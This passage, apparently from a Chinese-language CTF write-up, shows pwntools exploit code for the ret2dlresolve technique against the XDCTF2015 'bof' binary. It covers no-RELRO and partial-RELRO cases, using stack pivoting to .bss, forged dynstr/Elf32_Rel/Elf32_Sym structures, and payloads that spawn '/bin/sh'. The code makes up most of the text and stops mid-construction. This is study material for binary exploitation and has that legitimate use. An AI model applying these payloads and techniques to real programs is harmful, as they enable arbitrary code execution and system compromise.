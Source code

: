```python
dynstr=elf.get_section_by_name('.dynstr').data()
fake_dynstr=dynstr.replace('write','system')
strtab = 0x08049808 # .dynamic节中strtab的地址
write_pltjmp=0x080483A6

payload2 = p32(0xdeadbeef)+p32(read_plt)+p32(write_pltjmp)+p32(0)+ p32(strtab)+p32(7)+fake_dynstr
p.sendline(payload2)
payload3 = p32(new_stack+0x18)+';sh'
p.send(payload3)

p.interactive()
```

### partial relro

基本的分步式原理就不再赘述，主要是在bss段上伪造**dynrel+dynsym**+systemstring，所有的偏移由systemstring的地址来确定

![image-20220401120029160](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220401120029160.png)

```python
#coding=utf-8
from pwn import *
context.log_level="debug"

p=process('./bof')
elf=ELF('./bof')
bss_addr=elf.bss()
read_plt=elf.plt['read']
write_plt=elf.plt['write']

pop_ebp_gadget = 0x0804862b
leave_retn_gadget=0x08048445
three_pop_gadget=0x08048629

cmd = "/bin/sh\x00"
plt0 = elf.get_section_by_name('.plt').header.sh_addr
relplt = elf.get_section_by_name(".rel.plt").header.sh_addr
dynsym = elf.get_section_by_name(".dynsym").header.sh_addr
dynstr = elf.get_section_by_name(".dynstr").header.sh_addr
base=bss_addr+0x800

payload1 = 'a'*112+p32(read_plt)+p32(three_pop_gadget)+p32(0)+p32(bss_addr+0x800)+p32(0x100)
payload1 += p32(pop_ebp_gadget)+p32(base)+p32(leave_retn_gadget)
p.recvuntil('Welcome to XDCTF2015~!\n')
p.sendline(payload1)

base=bss_addr+0x800+4

reloc_index = base + 4*6 - relplt 

elf_sym_addr = base + 4*8
align = 0x10 - ((elf_sym_addr - dynsym) & 0xf) #进行对齐
elf_sym_addr = elf_sym_addr + align            #重新计算fake_Elf32_Sym地址

r_offset = elf.got['write']  
idx_dynsym = (elf_sym_addr - dynsym) / 0x10
r_info = (idx_dynsym << 8) | 0x7               #根据fake_Elf32_Sym反推r_info
elf_rel = p32(r_offset)+p32(r_info)            #伪造write的Elf32_Rel结构体


fake_st_name = elf_sym_addr + 0x10 - dynstr
fake_st_valve = 0
fake_st_size = 0 
fake_st_info = 0x12
```
